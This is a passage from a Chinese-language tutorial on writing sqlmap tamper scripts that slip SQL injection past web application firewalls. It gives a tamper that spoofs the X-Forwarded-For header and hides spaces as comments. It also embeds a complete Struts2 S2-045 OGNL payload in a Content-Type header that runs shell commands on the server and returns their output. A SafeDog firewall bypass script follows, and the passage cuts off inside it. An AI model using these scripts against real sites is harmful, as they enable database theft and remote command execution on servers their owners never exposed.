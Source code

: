 是不是很简单呢？

我们的第一个Tamper就大功告成了，可惜的是sqlmap官方提供的tamper中已经有了我们刚才写的功能，并且WAF大多没有那么低的level。

想要提升我们tamper的杀伤力和Level，首先你要了解Http相关的基础知识，以及正则表达式。

总之万变不离其宗，我们只要在最后返回Payload的值就可以了。

另一种玩法就是将我们请求的Header头进行一下篡改：

```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2016 sqlmap developers (http://sqlmap.org/)
See the file 'doc/COPYING' for copying permission
"""

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    kwargs['headers']['X-Forwarded-For'] = '10.10.10.10' # 这里的kwargs是一个字典，读者可以直接print打印出来看看结构。
    payload = payload.replace(" ",'/**/')
    return payload
```

经常看HTTP数据包的读者肯定注意到了，kwargs['headers']对应我们的请求Header头，它是一个字典。

```python
kwargs['headers']['Content-type'] = "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"+sys.argv[2]+"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"

kwargs['headers']['User-Agent']="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36" # 修改User-Agent
```

也可以这么来执行`S2-045`……

当然也可以`import`其他模块进行操作，随心所欲 ～

下面分析我之前分享出来的两个bypass脚本：

```python
#!/usr/bin/env python
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW

def tamper(payload,**kwargs):
    if payload:
		bypass_SafeDog_str = "/*x^x*/" # 一个干扰字符
		payload=payload.replace("UNION",bypass_SafeDog_str+"UNION"+bypass_SafeDog_str) # 在UNION的左右两边添加干扰字符
		payload=payload.replace("SELECT",bypass_SafeDog_str+"SELECT"+bypass_SafeDog_str) # 同上，
		payload=payload.replace("AND",bypass_SafeDog_str+"AND"+bypass_SafeDog_str) # 同上，
		payload=payload.replace("=",bypass_SafeDog_str+"="+bypass_SafeDog_str) # 将空格替换成干扰字符
		payload=payload.replace(" ",bypass_SafeDog_str)
```